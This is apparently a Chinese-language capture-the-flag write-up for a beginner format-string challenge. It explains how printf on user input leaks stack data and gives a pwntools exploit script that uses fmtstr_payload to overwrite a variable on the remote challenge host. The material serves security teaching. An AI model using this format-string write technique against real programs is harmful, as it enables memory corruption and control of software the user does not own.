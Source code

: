 # 挑战简介
开始格式化字符串了，先来个简单的吧

# 思路
首先你要知道什么是格式化字符串

首先看正常的printf使用：
```
int num = 100;
printf("The number is: %d\n", num);  // 正常使用
```

但在这道题中：
```
char s[0x50];
read(0, &s, 0x50u);    // 用户输入存储在s中
printf(&s);            // 危险！直接把用户输入当作格式字符串
```

## **漏洞原理**  
正常情况下栈的样子：  
```
栈顶
├── printf的返回地址
├── 参数1: &s (格式字符串的地址)
├── 参数2: 原本应该有，但没有
├── 参数3: 原本应该有，但没有
├── ...
├── 栈上的其他数据
├── 栈上的其他数据
└── 我们输入的字符串s的内容
栈底
```

**当我们输入特殊字符时会发生什么？**  
如果我们输入：AAAA%p%p%p%p%p%p%p%p  
```
printf("AAAA%p%p%p%p%p%p%p%p");
```

printf会认为：

- 格式字符串是："AAAA%p%p%p%p%p%p%p%p"
- 需要8个参数来填充8个%p
- 但实际上没有传递这些参数！

输出可能是：  
```
AAAA0xffbfe1200xffbfe1240x804851c0x10xf7e2c6200x00x804b0380x41414141
```

注意最后的 0x41414141 - 这就是我们输入的"AAAA"！

本质上就是从栈上获取写入变量的位置，从而去填充  

```
from pwn import *
from LibcSearcher import *
#context(arch = "amd64",os = 'linux',log_level = 'debug')

context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28219)

elf = ELF('D:\edge 下载\pwn')

daniu = 0x804B038
#payload = b'aaaa' + b'%p  ' * 10
payload = fmtstr_payload(7,{daniu:6})
io.send(payload)
io.interactive()
```
